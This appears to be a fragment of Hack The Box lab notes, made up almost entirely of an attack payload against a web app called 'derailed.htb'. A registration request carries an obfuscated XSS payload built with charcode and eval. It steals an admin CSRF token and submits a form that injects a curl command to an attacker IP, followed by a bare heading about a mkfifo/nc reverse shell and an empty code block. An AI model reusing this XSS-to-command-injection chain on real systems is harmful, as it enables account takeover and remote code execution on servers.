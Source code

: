 ```html
authenticity_token=IJ-T1VLMmlYH84yBg8GfaZzH2v7Vu_ZIucsC6v3T4MwOSrDbgFcVxU1pr3ow0_XPOzZRaWAD8WxG5ZSNYh2U9Q&user%5Busername%5D=c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img+src='http://10.10.14.93/c0derpwner'+onerror="eval(String.fromCharCode(118,97,114,32,120,109,108,72,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,109,108,72,116,116,112,46,111,112,101,110,40,32,34,71,69,84,34,44,32,34,104,116,116,112,58,47,47,100,101,114,97,105,108,101,100,46,104,116,98,58,51,48,48,48,47,97,100,109,105,110,105,115,116,114,97,116,105,111,110,34,44,32,116,114,117,101,41,59,10,120,109,108,72,116,116,112,46,115,101,110,100,40,32,110,117,108,108,32,41,59,10,10,115,101,116,84,105,109,101,111,117,116,40,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,118,97,114,32,100,111,99,32,61,32,110,101,119,32,68,79,77,80,97,114,115,101,114,40,41,46,112,97,114,115,101,70,114,111,109,83,116,114,105,110,103,40,120,109,108,72,116,116,112,46,114,101,115,112,111,110,115,101,84,101,120,116,44,32,39,116,101,120,116,47,104,116,109,108,39,41,59,10,32,32,32,32,118,97,114,32,116,111,107,101,110,32,61,32,100,111,99,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,39,41,46,118,97,108,117,101,59,10,32,32,32,32,118,97,114,32,110,101,119,70,111,114,109,32,61,32,110,101,119,32,68,79,77,80,97,114,115,101,114,40,41,46,112,97,114,115,101,70,114,111,109,83,116,114,105,110,103,40,39,60,102,111,114,109,32,105,100,61,34,98,97,100,102,111,114,109,34,32,109,101,116,104,111,100,61,34,112,111,115,116,34,32,97,99,116,105,111,110,61,34,47,97,100,109,105,110,105,115,116,114,97,116,105,111,110,47,114,101,112,111,114,116,115,34,62,32,32,32,32,60,105,110,112,117,116,32,116,121,112,101,61,34,104,105,100,100,101,110,34,32,110,97,109,101,61,34,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,34,32,105,100,61,34,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,34,32,118,97,108,117,101,61,34,112,108,97,99,101,104,111,108,100,101,114,34,32,97,117,116,111,99,111,109,112,108,101,116,101,61,34,111,102,102,34,62,32,32,32,32,60,105,110,112,117,116,32,105,100,61,34,114,101,112,111,114,116,95,108,111,103,34,32,116,121,112,101,61,34,116,101,120,116,34,32,99,108,97,115,115,61,34,102,111,114,109,45,99,111,110,116,114,111,108,34,32,110,97,109,101,61,34,114,101,112,111,114,116,95,108,111,103,34,32,118,97,108,117,101,61,34,112,108,97,99,101,104,111,108,100,101,114,34,32,104,105,100,100,101,110,61,34,34,62,32,32,32,32,60,98,117,116,116,111,110,32,110,97,109,101,61,34,98,117,116,116,111,110,34,32,116,121,112,101,61,34,115,117,98,109,105,116,34,62,83,117,98,109,105,116,60,47,98,117,116,116,111,110,62,39,44,32,39,116,101,120,116,47,104,116,109,108,39,41,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,40,110,101,119,70,111,114,109,46,102,111,114,109,115,46,98,97,100,102,111,114,109,41,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,101,108,101,109,101,110,116,115,46,114,101,112,111,114,116,95,108,111,103,46,118,97,108,117,101,32,61,32,39,124,99,117,114,108,32,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,57,51,47,114,99,101,99,102,109,101,100,39,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,101,108,101,109,101,110,116,115,46,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,46,118,97,108,117,101,32,61,32,116,111,107,101,110,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,115,117,98,109,105,116,40,41,59,10,125,44,32,51,48,48,48,41,59))">&user%5Bpassword%5D=celly&user%5Bpassword_confirmation%5D=celly

```
### Exec revshell 10.10.14.93 4444

with mkfifo and nc which has no append at all! 



```bash
```
